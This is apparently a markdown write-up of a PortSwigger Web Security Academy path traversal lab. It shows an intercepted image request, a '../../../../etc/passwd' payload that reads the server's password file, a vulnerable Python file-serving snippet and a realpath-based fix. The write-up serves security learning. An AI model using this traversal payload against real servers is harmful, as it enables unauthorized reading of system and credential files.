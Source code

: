 
---

- **Target:** Path Traversal Lab - validation of start of path
- **Author:** sonyahack1
- **Date:** 05.05.2025

---

> The vulnerability contains in the display of product images
> i open any product card and open its image in new tab

![image](./screenshots/image.png)
![image_url](./screenshots/image_url.png)

## Intercepting card image request

> intercepting:

```html 

GET /image?filename=/var/www/images/56.jpg HTTP/1.1
Host: 0ae2008403efa174810c7ea700620009.web-security-academy.net
Cookie: session=EKufU2azefi5yozD*******************
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://0ae2008403efa174810c7ea700620009.web-security-academy.net/product?productId=1
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Priority: u=0, i
Te: trailers
Connection: keep-alive

```

> I need to extract the contents of the file **/etc/passwd** . I see that the value of the parameter **filename** is the full path to the image on the server.
> at the end of this path I use **../../../../etc/passwd** to go up a few levels and read the file **/etc/passwd**


```html

GET /image?filename=/var/www/images/../../../../etc/passwd HTTP/2

```

> The thing is that **Path Traversal** is a vulnerability in which we manipulate paths in the URL in order to force the server to read or execute
> any files that it should not. If the server does not have correct normalization or validation of user input at the software level
> then such characters as **../** at the software level will be perceived as part of the path in the value of the **filename** parameter and the server will process
> such a path. First, it will execute the first part and go through **/var/www/images** then go up several levels (as if returning to the beginning)
> and go to the **/etc** directory to read the final **passwd** file specified in the path.

> As a result, I get the contents of the **/etc/passwd** file


![solved_lab](./screenshots/solved_lab.png)

> In simple terms, this vulnerability exists due to poor interpretation of the full path for the parameter.
> it might look something like this:

```python

def get_file(request):
    filename = request.GET['filename']
    filepath = "/var/www/images/" + filename
    with open(filepath, 'rb') as f:
        return f.read()

```

> If I pass **../../../../etc/passwd** to the parameter value the server will simply add it to the end path **/var/www/images**
> The result is **/var/www/images/../../../../etc/passwd**.

> **Note:** for example, this can be fixed with the following code:

```python

from os.path import realpath, commonprefix

base_path = "/var/www/images/"
requested_path = realpath(base_path + filename)

if not requested_path.startswith(realpath(base_path)):
    raise Exception("Path Traversal detected!")

```

---

![passwd_file](./screenshots/passwd_file.png)
